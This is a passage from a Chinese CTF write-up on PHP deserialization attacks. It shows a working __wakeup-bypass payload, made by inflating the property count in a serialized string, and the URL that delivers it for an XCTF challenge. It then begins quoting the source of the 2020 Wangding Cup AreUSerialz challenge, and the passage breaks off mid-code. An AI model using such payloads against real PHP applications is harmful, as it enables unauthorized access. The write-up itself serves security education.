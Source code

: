 首先实例化`xctf`类并对其使用序列化（这里就实例化`xctf`类为对象`test`）

```
<?php
class xctf
{                      //定义一个名为xctf的类
    public $flag = '111';            //定义一个公有的类属性$flag，值为111
    public function __wakeup()
    {      //定义一个公有的类方法__wakeup()，输出bad requests后退出当前脚本
        exit('bad requests');
    }
}
$test = new xctf();           //使用new运算符来实例化该类（xctf）的对象为test
echo (serialize($test));       //输出被序列化的对象（test）
//O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```

- 我们要反序列化 xctf 类的同时还要绕过 wakeup 方法的执行（如果不绕过 wakeup()方法，那么将会输出 bad requests 并退出脚
  本），wakeup()函数漏洞原理：当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过 wakeup 的执行。因此，需要修改序列化字符串中的属性个数：

- 当我们将上述的序列化的字符串中的对象属性个数由真实值 1 修改为 2，即如下所示：

- O:4:"xctf":2:{s:4:"flag";s:3:"111";}

- 访问 url：?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}

- 即可得到 flag

![][10]

# ctf 例子 3

来自 2020 网鼎杯 青龙组 `WEB`题目 `AreUSerialz`，[ctfhub 靶场][11]中可以搜到

```
<?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler
{
    protected $op;
    protected $filename;
    protected $content;
    function __construct()
    {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }
    public function process()
    {
        if ($this->op == "1") {
            $this->write();
        } else if ($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }
    private function write()
    {
        if (isset($this->filename) && isset($this->content)) {
            if (strlen((string)$this->content) > 100) {
                $this->output("Too long!");
```

[1]: https://code.visualstudio.com/Download
[2]: https://www.xp.cn/
[3]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_164636.png
[4]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_174322.png
[5]: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5409&page=1
[6]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_171426.png
[7]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_171520.png
[8]: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4821&page=1
[9]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_172032.png
[10]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201219_172109.png
[11]: https://www.ctfhub.com/#/
[12]: https://img.soapffz.com/archives_img/2020/12/19/archives_20201225_222921.png
[13]: https://www.bilibili.com/video/av53361627?p=1&t=476
[14]: http://keac.club/2020/05/11/2020%E7%BD%91%E9%BC%8E%E6%9D%AFweb/
[15]: https://www.cnblogs.com/Cl0ud/p/12874458.html
[16]: https://mp.weixin.qq.com/s/ZKwR4fZU-j1QXcQBTFF7PQ
